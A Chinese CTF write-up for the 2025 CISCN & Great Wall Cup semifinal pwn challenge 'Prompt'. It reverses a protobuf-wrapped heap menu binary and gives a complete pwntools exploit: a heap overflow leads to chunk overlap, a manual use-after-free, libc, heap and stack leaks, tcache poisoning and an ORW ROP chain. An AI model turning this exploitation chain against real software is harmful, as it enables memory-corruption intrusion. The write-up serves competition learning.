# 2025CISCN&长城杯半决赛 PWN Prompt详细题解-先知社区

> **来源**: https://xz.aliyun.com/news/17369  
> **文章ID**: 17369

---

# 2025CISCN&长城杯半决赛

## Prompt

### Break：

checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
```

seccomp

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x1e 0xc000003e  if (A != ARCH_X86_64) goto 0032
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x1b 0xffffffff  if (A != 0xffffffff) goto 0032
 0005: 0x15 0x1a 0x00 0x00000038  if (A == clone) goto 0032
 0006: 0x15 0x19 0x00 0x00000039  if (A == fork) goto 0032
 0007: 0x15 0x18 0x00 0x0000003a  if (A == vfork) goto 0032
 0008: 0x15 0x17 0x00 0x0000003b  if (A == execve) goto 0032
 0009: 0x15 0x16 0x00 0x0000003e  if (A == kill) goto 0032
 0010: 0x15 0x15 0x00 0x00000052  if (A == rename) goto 0032
 0011: 0x15 0x14 0x00 0x00000054  if (A == rmdir) goto 0032
 0012: 0x15 0x13 0x00 0x00000057  if (A == unlink) goto 0032
 0013: 0x15 0x12 0x00 0x0000005a  if (A == chmod) goto 0032
 0014: 0x15 0x11 0x00 0x0000005b  if (A == fchmod) goto 0032
 0015: 0x15 0x10 0x00 0x0000005c  if (A == chown) goto 0032
 0016: 0x15 0x0f 0x00 0x0000005d  if (A == fchown) goto 0032
 0017: 0x15 0x0e 0x00 0x00000065  if (A == ptrace) goto 0032
 0018: 0x15 0x0d 0x00 0x00000069  if (A == setuid) goto 0032
 0019: 0x15 0x0c 0x00 0x0000006a  if (A == setgid) goto 0032
 0020: 0x15 0x0b 0x00 0x00000071  if (A == setreuid) goto 0032
 0021: 0x15 0x0a 0x00 0x00000072  if (A == setregid) goto 0032
 0022: 0x15 0x09 0x00 0x00000075  if (A == setresuid) goto 0032
 0023: 0x15 0x08 0x00 0x00000077  if (A == setresgid) goto 0032
 0024: 0x15 0x07 0x00 0x0000009d  if (A == prctl) goto 0032
 0025: 0x15 0x06 0x00 0x000000c8  if (A == tkill) goto 0032
 0026: 0x15 0x05 0x00 0x000000ea  if (A == tgkill) goto 0032
 0027: 0x15 0x04 0x00 0x00000104  if (A == fchownat) goto 0032
 0028: 0x15 0x03 0x00 0x00000107  if (A == unlinkat) goto 0032
 0029: 0x15 0x02 0x00 0x0000010c  if (A == fchmodat) goto 0032
 0030: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0032
 0031: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0032: 0x06 0x00 0x00 0x00000000  return KILL
```

#### 逆向分析

IDA分析：

main:

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 v3; // [rsp+8h] [rbp-38h]
  __int64 v4[6]; // [rsp+10h] [rbp-30h]

  v4[5] = __readfsqword(0x28u);
  init(a1, a2, a3);
  snabox();
  v4[0] = add;
  v4[1] = delete;
  v4[2] = edit;
  v4[3] = show;
  v4[4] = exit_0;
  while ( 1 )
  {
    do
    {
      input_prompt();
      v3 = protobuf_unpack();
    }
    while ( !v3 );
    if ( *(v3 + 24) <= 0 || *(v3 + 24) > 5 )
      printf("Unknown option: %d
", *(v3 + 24));
    else
      (v4[*(v3 + 24) - 1])(v3);
    sub_213C(v3, 0LL);
  }
}
```

刚开始每个函数都点进去看一下，然后再protobuf\_unpack函数中可以分析出来，这是一个套了protobuf的题目，所以第一步我们就先写出来他的protobuf的发包格式

##### 逆向protobuf









所以他的发包格式为

```
syntax = "proto2";

message HeapPayload{
        required int32 option = 1;
        required int32 chunk_sizes = 2;
        required int32 heap_chunks_id = 3;
        required bytes heap_content = 4;
}
```

还没学protobuf的，可以先去学一下protobuf

##### input\_prompt：

```
unsigned __int64 sub_1C89()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  printf("Your prompt >> ");
  return v1 - __readfsqword(0x28u);
}
```

##### protobuf\_unpack：

```
__int64 sub_1CCF()
{
  unsigned int size; // [rsp+4h] [rbp-102Ch] BYREF
  ssize_t v2; // [rsp+8h] [rbp-1028h]
  void *ptr; // [rsp+10h] [rbp-1020h]
  __int64 v4; // [rsp+18h] [rbp-1018h]
  char v5[16]; // [rsp+20h] [rbp-1010h] BYREF
  unsigned __int64 v6; // [rsp+1028h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v2 = read(0, &size, 4uLL);
  if ( v2 != 4 )
    return 0LL;
  if ( size <= 0x1000 )
  {
    ptr = malloc(size);
    if ( !ptr )
      exit(1);
    v2 = read(0, ptr, size);
    if ( v2 == size )
    {
      v4 = real_protobuf_unpack(0LL, size, ptr);// protoc_unpack
      free(ptr);
      return v4;
    }
    else
    {
      free(ptr);
      return 0LL;
    }
  }
  else
  {
    read(0, v5, size);
    return 0LL;
  }
}
```

分析protobuf\_unpack函数可以发现，他首先要我们传入protobuf的大小，然后去判断我们传入的大小是否等于protobuf的大小，如果相同才会调用真正的unpack函数

然后继续分析主函数，发现他是根据我们传入的option进行不同函数的操作的

##### add：

```
unsigned __int64 __fastcall add(__int64 a1)
{
  size_t v1; // rax
  int i; // [rsp+18h] [rbp-18h]
  signed int v4; // [rsp+1Ch] [rbp-14h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( *(a1 + 32) )                             // a1 + 32 == option
  {
    v4 = **(a1 + 40);                           // ** a1+40 == size
    if ( v4 <= 0x500 )
    {
      for ( i = 0; i <= 15 && *(&chunk_list + i); ++i )
        ;
      if ( i <= 15 )
      {
        size_list[i] = v4;
        *(&chunk_list + i) = malloc(v4);
        if ( !*(&chunk_list + i) )
          exit(1);
        memset(*(&chunk_list + i), 0, v4);
        if ( *(a1 + 64) && *(a1 + 72) )         // a1+64 == content_size
                                                // a1+72 == content
        {
          v1 = *(a1 + 64);
          if ( v4 <= v1 )
            v1 = v4;
          memcpy(*(&chunk_list + i), *(a1 + 72), v1);
        }
      }
    }
  }
  return v5 - __readfsqword(0x28u);
}
```

add函数就是一个正常的创建堆块函数，最多可以创建16个chunk，并且每个chunk的size不能大于0x500，并且他还会将我们创建的chunk中的内容给清空，防止指针的残留，导致泄露基址，下面有个检查，检查我们传入的content\_size是否小于chunk\_size，这一步是防止堆溢出

##### delete：

```
unsigned __int64 __fastcall sub_1962(__int64 a1)
{
  signed int v2; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( *(a1 + 48) )
  {
    v2 = **(a1 + 56);                           // ** a1+56 == idx
    if ( v2 <= 0xF )
    {
      if ( *(&chunk_list + v2) )
      {
        free(*(&chunk_list + v2));
        *(&chunk_list + v2) = 0LL;
        size_list[v2] = 0LL;
      }
    }
  }
  return v3 - __readfsqword(0x28u);
}
```

delete函数并没有我们想要的UAF，他会给指针置零

##### edit：

```
unsigned __int64 __fastcall sub_1A40(__int64 a1)
{
  size_t v1; // rax
  signed int v3; // [rsp+18h] [rbp-18h]
  signed int v4; // [rsp+1Ch] [rbp-14h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( *(a1 + 48) )
  {
    if ( *(a1 + 32) )
    {
      v3 = **(a1 + 56);                         // idx
      v4 = **(a1 + 40);                         // 输入的size
      if ( v3 <= 0xF && *(&chunk_list + v3) && v4 <= 0x500 )
      {
        size_list[v3] = v4;
        if ( *(a1 + 64) && *(a1 + 72) )         // +72 输入的值
        {
          v1 = *(a1 + 64);                      // content_size
          if ( v4 <= v1 )
            v1 = v4;
          memcpy(*(&chunk_list + v3), *(a1 + 72), v1);
        }
        else
        {
          memset(*(&chunk_list + v3), 0, v4);
        }
      }
    }
  }
  return v5 - __readfsqword(0x28u);
}
```

可以看到edit函数中就存在了堆溢出的漏洞，因为v4是我们发包传入的size，相当于我们再一次写入了size，并且这个size我们还可控，所以导致了堆溢出

##### show：

```
unsigned __int64 __fastcall sub_1BB3(__int64 a1)
{
  signed int v2; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( *(a1 + 48) )
  {
    v2 = **(a1 + 56);
    if ( v2 <= 0xF )
    {
      if ( *(&chunk_list + v2) )
        printf("content: %s
", *(&chunk_list + v2));
    }
  }
  return v3 - __readfsqword(0x28u);
}
```

show函数也是一个打印的函数，但是有一点就是他是通过printf函数打印的，printf打印是通过\x00截断的，这也可以导致我们通过堆溢出之后可以泄露地址

#### 思路：

整体程序分析完成，存在的漏洞就是堆溢出漏洞，那么这题就很简单了，通过堆溢出导致堆块重叠， 然后再释放重叠后的chunk，然后按照申请时候的每个chunk大小申请回来，这就可以手动的构造出UAF漏洞了，有UAF漏洞，就可以进行泄露libc和heap的基址了，泄露完成之后。由于存在手动构造的UAF漏洞，就可以攻击tcache了，申请出来environ地址，然后再泄露栈地址，全部都泄露完成之后，再次攻击tcacahe打栈的返回地址，就可以进行ORW的ROP链子构造

#### 实践：

##### 第一步：构造堆叠

```
from pwn import *
import struct
import pack_pb2
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch,os=elf.os)
context.log_level = 'debug'
io = process([elf.path])
# io = remote("")
def debug():
    gdb.attach(io)
    pause()

'''
def add():
    io.sendlineafter("")
    io.sendlineafter("")
    io.sendlineafter("")
'''
msg = pack_pb2.HeapPayload()
def add(chunk_sizes,content):
    msg.option = 1
    msg.chunk_sizes = chunk_sizes
    msg.heap_chunks_id = 0
    msg.heap_content = content
    msg_ser = msg.SerializeToString()
    msg_len = struct.pack("<I",len(msg_ser))
    io.sendafter("Your prompt >> ",msg_len)
    io.send(msg.SerializeToString())

def delete(idx):
    msg.option = 2
    msg.chunk_sizes = 0
    msg.heap_chunks_id = idx
    msg.heap_content = b''
    msg_ser = msg.SerializeToString()
    msg_len = struct.pack("<I",len(msg_ser))
    io.sendafter("Your prompt >> ",msg_len)
    io.send(msg.SerializeToString())

def edit(idx,chunk_size,content):
    msg.option = 3
    msg.chunk_sizes = chunk_size
    msg.heap_chunks_id = idx
    msg.heap_content = content
    msg_ser = msg.SerializeToString()
    msg_len = struct.pack("<I",len(msg_ser))
    io.sendafter("Your prompt >> ",msg_len)
    io.send(msg.SerializeToString())

def show(idx):
    msg.option = 4
    msg.chunk_sizes = 0
    msg.heap_chunks_id = idx
    msg.heap_content = b''
    msg_ser = msg.SerializeToString()
    msg_len = struct.pack("<I",len(msg_ser))
    io.sendafter("Your prompt >> ",msg_len)
    io.send(msg.SerializeToString())


add(0x300,b'A')#0
add(0x400,b'A')#1
add(0x400,b'A')#2
add(0x400,b'A')#3

add(0x400,b'A')#4
add(0x400,b'A')#5
add(0x400,b'A')#6
add(0x400,b'A')#7
edit(3,0x420,b'A'*0x408+p64(0x1041))
delete(4)
```

构造堆叠





可以看到chunk4的size部分已经被我们修改为了0x1041了，也就是此时的chunk4包含了chunk5，chunk6，chunk7

接下来释放掉chunk4





chunk4被释放掉了，现在进入到我们的unsortedbin中了

##### 第二步：泄露libc基址

```
add(0x400,b'A')#4
debug()
show(5)
libc.address = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - (0x7fef6bae2b20-0x7fef6b8df000)
```

此时如果我们再申请一个0x400大小的chunk，那么就会切割chunk4，然后chunk4中的libc地址就会被放入到chunk5中





可以看到chunk5中残留了libc的地址，此时我们只需要打印chunk5就可以给他打印出来了

这就泄露了libc的基址

##### 第三步：手动构造UAF

```
add(0x400,b'A')#8 5
add(0x400,b'A')#9 6
add(0x400,b'A')#10 7
```

由于现在chunk5，chunk5，chunk7都被chunk4包含，我们现在只需要见他们都申请出来，这样就会出现有两个指针都指向同一个chunk的情况了



可以看到有三个chunk都存在这种情况

##### 第四步：泄露heap地址

由于现在存在两个指针指向一个chunk的情况下，我们可以释放掉一个，然后打印另一个，就可以泄露出来堆地址了

```
delete(5)
show(8)
io.recvuntil("content: ")
heap = u64(io.recv(5).ljust(8, b'\x00')) << 12
heap = heap -(0x55c94cfcf000-0x55c94cfca000)
```

##### 第五步：泄露栈地址

由于现在tcache中有我们刚刚释放的chunk5，然后我们此时在释放chunk6进去，然后修改chunk6，指向environ附近就可以泄露栈地址，注意，不能直接指向environ，因为add函数中存在申请chunk的时候会给chunk内容清空的操作，我们要申请到上面，然后将其填充满，然后再用printf \x00截断的点，来泄露

```
environ = libc.sym['environ']
print("\x1B[33menviron:\x1B[0m",hex(environ))
payload = p64(((heap + 0x6140)>>12)^(environ - 0x408))
edit(9,0x20,payload)
add(0x400,b'A')#5
add(0x408,b'A')#6
edit(6,0x500,b'A'*0x408)
# debug()
show(6)
stack = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
```



##### 第六步：构造ORW的ROP链子

```
pop_rdi = libc.address +0x000000000010f75b
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh\x00'))
ret = libc.address + 0x000000000002882f
fun_ret = stack -0x188
pop_rsi = libc.address + 0x0000000000110a4d
pop_rax = libc.address + 0x00000000000dd237
syscall = libc.address + 0x0000000000098fb6

#5 9 ; 7 10
delete(5)
payload = p64(((heap+0x6140)>>12)^(fun_ret))
edit(9,0x20,payload)
add(0x400,b'A')
# debug()
payload = b'./flag\x00\x00'
payload += p64(pop_rdi)+p64(fun_ret)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall) #open
payload += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x2000)+p64(pop_rax)+p64(0)+p64(syscall) #read
payload += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(heap+0x2000)+p64(pop_rax)+p64(1)+p64(syscall) #write
add(0x400,payload)
```

还是跟刚刚泄露栈地址一样的操作，释放进去两个我们可控的地址，然后通过手动构造的UAF，将他修改到返回地址上去就行了，之后我们在将返回地址申请出来就行，在上面构造ORW的链子就行了




最后就可以成功的获取flag了


